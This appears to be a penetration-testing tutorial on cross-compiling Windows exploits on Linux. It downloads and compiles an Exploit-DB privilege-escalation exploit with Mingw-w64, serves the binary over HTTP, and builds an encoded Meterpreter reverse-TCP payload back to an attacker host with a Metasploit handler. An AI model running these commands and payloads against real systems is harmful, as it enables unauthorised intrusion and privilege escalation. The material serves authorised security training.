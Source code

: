 # Compiling Windows Exploits on Linux

The vast majority of systems both enterprise and personal use Windows (workstations and servers). Conversely, most penetration testers work with Linux, such as Kali, Parrot OS, Pentoo, or Backbox. As such, it's imperative to be able to compile executable Windows exploits on our machine, without the need for a complete Windows dev environment. 

Through this topic, we will describe how to cross-compile Windows exploits on Linux using a Windows privilege escalate exploit. 
A popular tool to do so, is called Mingw-w64 (Minimalist GNU for Windows). 
Mingw-w64 is a free and open source development environment for creating windows applications. 

### Installing Mingw-w64

https://mingw-w64.org
http://www.mingw.org

```bash
sudo apt-get update
sudo apt-get install mingw-w64

# If Unable to locate package, update /etc/apt/sources.list
# Correct repos - https://www.kali.org/docs/general-use/kali-linux-sources-list-repositories/
```

### Compiling Windows Exploits

The first step is to download the exploit. 
Then, we can compile it:

```bash
# Download the privilege escalation exploit
wget https://www.exploit-db.com/download/40564 -O 40564.c

# Compile it
i686-w64-mingw32-gcc 40564.c -o exploit.exe -lws2_32
```

The `-lws2_32` is for naming the libraries/dlls you wish to link. 
In this case, we are link the 32-bit winsock dll (ws2_32).

### Transferring the exploit

To transfer to the target host where it can be executed, we can serve it with the built-in Apache Web Server, or even a simple Python SimpleHTTPServer:
```bash
sudo python -m SimpleHTTPServer 80
```

### Compilation Errors

Stack Overflow? 

### Exploiting from a Meterpreter Shell

We've seen how to transfer using Apache2 or Python, but what about using a reverse shell via Meterpreter?
First we generate a Windows 32-bit Meterpreter reverse TCP payload using Msfvenom, then execute it on the target host and receive the reverse shell on the attack box, using the multi-handler module in metasploit.

```
Real world, we'd exploit a vulnerability first to allow us to upload files to the target host and execute them. For this demonstrattion, we are assuming we already have command execution on the target to allow for file upload and execution.
```

Creating the Meterpreter reverse shell payload with Msfvenom:
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=[IP attack box] LPORT=4444 -e x86/shikata_ga_nai -f exe -o exploit.exe
```

With the exploit ready, we need to setup a handler to receive the shell:
```bash
1 - msfconsole
2 - use exploit/multi/handler
3 - set lhost [IP attackbox]
4 - set lport 4444
5 - run
```

Lastly, we can download the exploit and run it to receive the reverse shell on msfconsole. 

```bash
1 - shell # To spawn the reverse shell from meterpreter
2 - whoami # To validate our current logged in user
3 - exploit.exe # To execute our privilege escalation payload
4 - whoami # To validate our permissions were elevated
```

